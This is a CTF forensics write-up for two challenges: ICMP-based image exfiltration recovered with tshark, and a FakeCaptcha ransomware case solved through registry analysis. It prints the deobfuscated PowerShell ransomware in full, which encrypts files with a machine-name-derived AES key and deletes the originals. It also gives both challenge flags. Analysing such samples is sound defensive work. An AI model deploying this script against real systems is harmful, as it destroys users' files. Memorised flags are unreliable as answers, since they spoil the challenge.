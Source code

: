 ```yaml
---
title: "IDEH v6 Write Up"
date: 2025-04-13 10:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware]
description: Write Up of the forensics challenges i made for the IDEH v6 CTF
image: ../images/ideh6/1.png
---
```

# pingwin

![](../images/ideh6/2.png)

In this challenge, we have a pcap file. Let's analyze it in Wireshark.

![](../images/ideh6/4.png)

We have two protocols in the traffic: DNS and ICMP, which might indicate possible data exfiltration. Let's investigate further.

![](../images/ideh6/5.png)

There's nothing suspicious in the DNS traffic—just queries to an invalid domain, `notgoogle.com`, with no data being transferred.

Now, let's move on to the ICMP traffic.

![](../images/ideh6/6.png)

The first ICMP (ping) request contains some data. In the first request, the data is a PNG file signature, indicating that an image is being exfiltrated through the protocol.

Let's use the `tshark` command line to extract all data chunks and reconstruct the image file:

```
tshark -r pingwin.pcapng -Y "icmp && ip.src == 192.168.42.173" -T fields -e data.data | tr '\n' '\0' | xxd -r -p > solve.png
```

And here is the image being exfiltrated:


![](../images/ideh6/7.png)

FLAG : `IDEH{h0l4_qu3_p4s4_4l_kh4w4}`

# captcha

![](../images/ideh6/3.png)

In this challenge, we have an encrypted PDF file and a ZIP file containing a disk image.

![](../images/ideh6/8.png)

Based on the challenge description, the victim had their PDF encrypted after verifying a captcha on a website.

The captcha verification seems unusual, as a regular captcha verifier doesn't ask the user to open the Windows Run dialog (Windows key + R).
This attack is known as FakeCaptcha, and it is widely spread across the web.
Most of these attacks involve phishing the user into running a pre-copied payload via the Windows Run dialog.
The script is typically an infostealer malware, but in this case, it's ransomware, so let's investigate further.

Opening the disk image with an imaging tool (I used FTK Imager), we can see the user's files.

![](../images/ideh6/9.png)

Great! In Windows, the history of commands used in the Run dialog is stored in the registry at the following path:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

Now, let's locate the user registry hive. The user registry is located in the root folder of the user’s directory and is called `ntuser.dat`

 ![](../images/ideh6/10.png)

Let's export this file from the image. To view its contents, we need **Registry Explorer**, a great tool from Eric Zimmerman.

After opening the registry, navigate to the path:
`\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` to find the history of commands

![](../images/ideh6/11.png)

The malicious payload makes a web request to retrieve the actual payload from Pastebin. Visiting the URL, we can see an obfuscated PowerShell command. We need to deobfuscate it to understand its behavior.

Here is the deobfuscated version:

```ps1
$folderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("Desktop"), "random_folder_to_not_damage_the_entire_system")
if (-not (Test-Path $folderPath)) {
    Write-Host "Folder not found. Exiting."
    exit
}
$computerName = [System.Environment]::MachineName
if ($computerName.Length -lt 16) {
    $key = $computerName + ('9' * (16 - $computerName.Length))
} else {
    $key = $computerName.Substring(0, 16)
}
Write-Host "Key: $key"
$keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
Write-Host "Key Bytes: $($keyBytes -join ', ')"
$aesAlg = [System.Security.Cryptography.Aes]::Create()
$aesAlg.Key = $keyBytes
$aesAlg.Mode = [System.Security.Cryptography.CipherMode]::ECB
$aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
Get-ChildItem -Path $folderPath -File | ForEach-Object {
    $filePath = $_.FullName
    $encryptor = $aesAlg.CreateEncryptor($aesAlg.Key, $null)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream(
        [System.IO.File]::OpenWrite($filePath + ".enc"),
        $encryptor,
        [System.Security.Cryptography.CryptoStreamMode]::Write
    )
    $inputFileStream = [System.IO.File]::OpenRead($filePath)
    $inputFileStream.CopyTo($cryptoStream)
    $cryptoStream.FlushFinalBlock()
    $cryptoStream.Close()
    $inputFileStream.Close()
    Remove-Item $filePath -Force
}
```

This PowerShell script encrypts files in a "Desktop" folder **random_folder_to_not_damage_the_entire_system** using AES-ECB with a key derived from the computer name.

- If the computer name is shorter than 16 characters, it pads it with the character `9`.

- If the computer name is longer, it truncates it to 16 characters.

- The script appends `.enc` to the encrypted files and deletes the originals.

Now, we need the computer name to construct the encryption key. The computer name is stored in the Windows registry, specifically at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`

Let's retrieve the system machine hive.

In the disk image, the registry hive is located in the main folder, before the user folder.

![](../images/ideh6/13.png)

We open it again using **Registry Explorer** and navigate to the **ComputerName** path.

![](../images/ideh6/14.png)

The computer name is `DESKTOP-QELPTBL`

Since the computer name is 15 characters long, the script will pad it with the character `9` to make it a 16-character string.

Thus, the encryption key is `DESKTOP-QELPTBL9`

Now, let's decrypt the PDF file using a custom Python script.

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

def dec_file(encrypted, decrypted, key):
    with open(encrypted, 'rb') as f:
        ciphertext = f.read()
    cipher = AES.new(key, AES.MODE_ECB)
    dec_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    with open(decrypted, 'wb') as f:
        f.write(dec_data)
    print(f"decrypted and saved as {decrypted}")

key = b"DESKTOP-QELPTBL9"
encrypted = 'flag.pdf.enc'
decrypted = 'flag.pdf'
dec_file(encrypted, decrypted, key)
```

...and voilà, we got the PDF back:

![](../images/ideh6/15.png)

FLAG : `IDEH{D1g174l_F0r3n51c_M4573r}`

